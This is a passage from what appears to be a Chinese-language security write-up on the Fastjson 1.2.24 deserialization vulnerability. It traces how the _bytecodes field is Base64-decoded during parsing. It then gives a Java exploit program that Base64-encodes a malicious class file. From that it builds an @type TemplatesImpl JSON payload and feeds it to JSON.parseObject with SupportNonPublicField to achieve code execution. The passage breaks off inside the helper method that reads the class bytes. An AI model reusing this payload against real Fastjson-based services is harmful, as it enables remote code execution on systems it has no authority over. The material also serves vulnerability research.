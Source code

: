 在我们设置`_bytecodes`的值的时候还需要进行 Base64编码，因为对于`byte[]`类型的 Field，在序列化与反序列化时会进行 Base64 编码和解码的操作。

以`com.alibaba.fastjson.serializer.ObjectArrayCodec#deserialze()`方法为例
![image-20221221165141721](images/image-20221221165141721.png)

跟进`bytesValue()`方法到`com.alibaba.fastjson.parser.JSONScanner#bytesValue()`，在这里进行了 Base64 解码操作
![image-20221221165020317](images/image-20221221165020317.png)

到这里，已经可以写出 exp 了
```java
package com.fastjson.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import java.util.Base64;

/**
 * Created by dotast on 2022/12/21 16:28
 */
public class FastJson124 {
    public static void main(String[] args) throws Exception {
        // 加载恶意类字节码
        byte[] classBytes = getBytes();
        String classCode = Base64.getEncoder().encodeToString(classBytes);
        String targetClass = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String exp = "{\"@type\":\""+ targetClass + "\",\"_bytecodes\":[\""+ classCode + "\"],\"_name\":\"name\",\"_tfactory\":{},\"_outputProperties\":{},}";
        System.out.println(exp);
        JSON.parseObject(exp, Object.class, Feature.SupportNonPublicField);

    }

    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
```